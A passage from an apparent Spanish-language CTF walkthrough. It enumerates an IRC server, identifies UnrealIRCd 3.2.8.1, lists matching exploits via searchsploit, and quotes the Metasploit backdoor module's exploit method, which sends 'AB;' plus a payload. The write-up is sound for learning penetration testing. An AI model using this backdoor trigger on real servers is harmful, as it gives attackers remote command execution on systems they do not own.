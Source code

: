```text
366 #UPupDOWNdownLRlrBAbaSSss End of /NAMES list.
324 #UPupDOWNdownLRlrBAbaSSss +
*** #UPupDOWNdownLRlrBAbaSSss formed Wed Apr  3 09:09:50 2019
```

Tenemos conectado al usuario djmardov en el único canal #UPupDOWNdownLRlrBAbaSSss. El servidor es un Unreal3.2.8.1

# Getting a RCE

Fuera de eso no encontramos nada mas relevante. Pero con esto basta para buscar si hay algun exploit conocido:

```text
xbytemx@laptop:~/git/exploit-database$ ./searchsploit unrealirc
------------------------------------------------------------------------------- -------------------------------------------------------
 Exploit Title                                                                 |  Path
                                                                               | (/home/xbytemx/git/exploit-database//)
------------------------------------------------------------------------------- -------------------------------------------------------
UnrealIRCd 3.2.8.1 - Backdoor Command Execution (Metasploit)                   | exploits/linux/remote/16922.rb
UnrealIRCd 3.2.8.1 - Local Configuration Stack Overflow                        | exploits/windows/dos/18011.txt
UnrealIRCd 3.2.8.1 - Remote Downloader/Execute                                 | exploits/linux/remote/13853.pl
UnrealIRCd 3.x - Remote Denial of Service                                      | exploits/windows/dos/27407.pl
------------------------------------------------------------------------------- -------------------------------------------------------
Shellcodes: No Result
```

Encontramos varias opciones para la versión `3.2.8.1`, pero la que nos interesa es la que usa msf, veamos un poco que hace para lanzar el exploit:

```ruby
def exploit
  connect

  print_status("Connected to #{rhost}:#{rport}...")
  banner = sock.get_once(-1, 30)
  banner.to_s.split("\n").each do |line|
    print_line("    #{line}")
  end

  print_status("Sending backdoor command...")
  sock.put("AB;" + payload.encoded + "\n")

  handler
  disconnect
end
```
